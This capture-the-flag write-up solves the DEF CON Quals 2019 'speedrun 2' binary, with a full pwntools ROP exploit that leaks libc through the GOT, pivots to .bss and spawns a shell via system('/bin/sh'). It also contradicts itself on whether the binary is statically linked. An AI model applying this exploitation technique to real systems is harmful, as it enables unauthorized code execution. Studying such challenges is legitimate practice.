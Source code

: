 
# SpeedRun 2

This is the second speedrun challenge for DEF CON Quals 2019. The speedrun challenges look like they are intended to be a little simpler than the standard pwnable challenges: they are meant for people to practice their skills, and accordingly I found them instructive. This one I downloaded during the competition and solved afterwards.

### Reconnaissance

The second speedrun challenge is a 64-bit ELF binary with no PIE, no canary, and partial RELRO. It's also statically linked, so it was obvious at a first glance that I would have access to any gadget I wished for ROP. Accordingly, my intuition was to find the buffer overflow vulnerability first.

I found the security feature that was keeping me from attaching a debugger in Speedrun 1 -- it was easy to find, I was just in a hurry last time. running `strings` on the file shows `DEBUG` to be in the binary somewhere, and that leads me to:

![./anti-debug.png](./anti-debug.png)

So, attaching a debugger will trigger an alarm within five seconds. I disabled the alarm with a hex editor, and could debug the binary to my heart's content.

Okay, here's some sample interaction with the program:

```
We meet again on these pwning streets.
What say you now?
>Everything intelligent is so boring.
What an interesting thing to say.
Tell me more.
>Hello
Fascinating.
Fare thee well.
```

The first line of input has to start with "Everything intelligent is so boring." But then I have a huge number of characters that I can send in, except that it is still less than the buffer size. At least I can get input onto the stack.

The vulnerable function comes with the next `read`:

![./vuln_function.png](./vuln_function.png)

Here we read `0x7da` bytes into a buffer of size `0x8`. I'm ready to do a ROP chain.

### Developing the Exploit

In this case I have far fewer gadgets to work with, since the binary isn't statically linked. I'm not given the `libc.so.6` file. One thought I have is to try to leak `libc` addresses from the `GOT` and then fingerprint it. Another approach is to try to put together a call to `execve` from what I've got, but there's no `syscall`. The stack isn't executable, so shellcode is not an option. Let me look for functions I can use in the binary.

Well, I didn't see anything right away -- as a sanity check, I looked at some other write-ups just to see if the `libc` file was provided and I forgot to download it. [One](https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s2) stated, without explanation, that the proper `libc` is `libc-2.27.so` for Ubuntu 18.04. A [second](https://www.youtube.com/watch?v=FWLD3Ne_CUc&feature=youtu.be) actually does a lookup given an offset leaked from the GOT. Great! I've never had the occasion to do that, I've always been given the `libc` version. But this is much more realistic and a useful skill to pick up from this problem. Okay, let's do this. I guess I'll leak `read` since that video appears to be leaking `puts`.

So I'll pop `rdi`, put the address of `read` from the GOT in there, call `puts`, print that address out, and go ahead and let the program crash. No need to pivot to the `.bss` section and return to `main`, that's more than I need to do.

Wow, that's really great! I leaked the address of `read`, went [here](https://libc.blukat.me/), entered `__read` and the `libc` address for my (local) binary, got one match, downloaded it, and sure enough the hashes were the same as my own `libc`. Very useful. So that gives me the offset for `system`! Okay, I still need to leak a `libc` address and pivot to the `.bss` section, but that's how I get the `libc.so.6` file. Sweet.

To call `puts`, I decided to step into the function that greets the user:

![./greeter.png](./greeter.png)

Then, I pop `rdi`, placing an address in the `.bss` section into `rdi`, and return to the instruction `mov [rbp + buf], rdi` in `vuln`. That lets me read `/bin/sh` into the `.bss` section, along with the rest of my ROP chain. I pivot to that ROP chain and then call `system`. Here's the exploit code.

```

from pwn import *
from time import sleep

local = True
if local:
	p = process('./speedrun-002-copy')
	DELAY = 0.1

p.recvuntil("?")
p.send("Everything intelligent is so boring.\n")
p.recvuntil("more.")

sleep(2)

# 0x00000000004008a3 : pop rdi ; ret
POP_RDI_ADDR = 0x4008a3
CALL_PUTS_ADDR = 0x4006fd # 0x400718
PUTS_GOT_ADDR = 0x601040
READ_OFFSET = 0x110070
SYSTEM_OFFSET = 0x04f440
BSS_OLD_RBP = 0x601800 + 0x8
MAIN_ADDR = 0x40074d # I want to pivot to the .bss section so I know where /bin/sh is

payload = "A"*1024
payload += p64(BSS_OLD_RBP)
payload += p64(POP_RDI_ADDR)
payload += p64(PUTS_GOT_ADDR)
payload += p64(CALL_PUTS_ADDR)
payload += p64(BSS_OLD_RBP) # There's a pop rbp to deal with
payload += p64(POP_RDI_ADDR)
#  read data to this location. Start with the ROP
#  chain and then add the /bin/sh string higher up.
payload += p64(BSS_OLD_RBP)
payload += p64(0x40070d) # load [rbp-8] into rdx and that's where we read to
payload += p64(BSS_OLD_RBP) # for the leave instruction
payload += p64(BSS_OLD_RBP) # continue the ROP chain here
payload += "\n"
p.send(payload)

p.recvuntil("Fascinating.\n")

## Get the address of read in libc
READ_ADDR = u64(p.recv(6) + "\x00\x00")
#log.info("read address = " + hex(READ_ADDR))

SYSTEM_ADDR = READ_ADDR - READ_OFFSET + SYSTEM_OFFSET
p.recvuntil("more.")

## Execute system('/bin/sh')
payload2 = "A"*8
payload2 += p64(POP_RDI_ADDR)
payload2 += p64(BSS_OLD_RBP + 48)
payload2 += p64(SYSTEM_ADDR)
payload2 += "C"*16
payload2 += "/bin/sh\x00"  # I'll just find where this ends up with GDB
payload2 += "\n"

sleep(2)
p.send(payload2)
p.interactive()
```

And the exploit in action!

![local_flag.png](./local_flag.png)

### Comparison to Other Approaches

The general theme is the same in the write-ups on CTF Time. [guyinatuxedo](https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s2) and [wotmd](https://github.com/wotmd/CTF_Exploit/blob/master/DEFCON_CTF_2019/speedrun002/attack_speedrun002.py) save themselves some time by using One Gadget, so they don't need to pivot to the `.bss` section. I should get used to doing that as well.
